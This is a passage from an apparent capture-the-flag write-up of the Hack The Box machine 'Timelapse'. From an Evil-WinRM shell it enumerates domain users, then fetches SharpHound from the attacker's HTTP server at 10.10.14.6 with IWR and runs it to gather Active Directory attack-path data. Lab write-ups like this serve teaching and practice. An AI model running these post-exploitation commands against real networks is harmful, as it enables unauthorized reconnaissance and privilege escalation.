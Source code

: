 I'm user `legacyy`!

**user.txt:**
```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> type user.txt
{Redacted}
```

## Privilege Escalation

### legacyy to svc_deploy

After gaining initial foothold, we need to escalate our privilege. To do so, we need to enumerate the system.

**Domain users:**
```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> net user /domain
[...]
-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
```

- Non-default domain user: `babywyrm`, `legacyy`, `payl0ad`, `sinfulz`, `svc_deploy`, `thecybergeek`, `TRX`

**We can also use Bloodhound and Sharphound to analyze the domain's attack paths.**

- **Transfer `SharpHound` collector:**

```
┌[siunam♥Mercury]-(~/ctf/htb/Machines/Timelapse/smb_findings)-[2023.08.09|17:02:44(HKT)]
└> python3 -m http.server -d /opt/SharpHound 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```shell
*Evil-WinRM* PS C:\Users\legacyy\Desktop> IWR -Uri http://10.10.14.6/SharpHound.exe -OutFile SharpHound.exe
*Evil-WinRM* PS C:\Users\legacyy\Desktop> ./SharpHound.exe --CollectionMethods All
2023-08-09T10:03:32.8558319-07:00|INFORMATION|Resolved Collection Methods: Group, LocalAdmin, GPOLocalGroup, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets, PSRemote
[...]
2023-08-09T10:04:17.7620823-07:00|INFORMATION|SharpHound Enumeration Completed at 10:04 AM on 8/9/2023! Happy Graphing!
*Evil-WinRM* PS C:\Users\legacyy\Desktop> ls
[...]
Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----         8/9/2023  10:04 AM          12287 20230809100416_BloodHound.zip
-a----         8/9/2023  10:03 AM         908288 SharpHound.exe
-ar---         8/9/2023   8:29 AM             34 user.txt
```

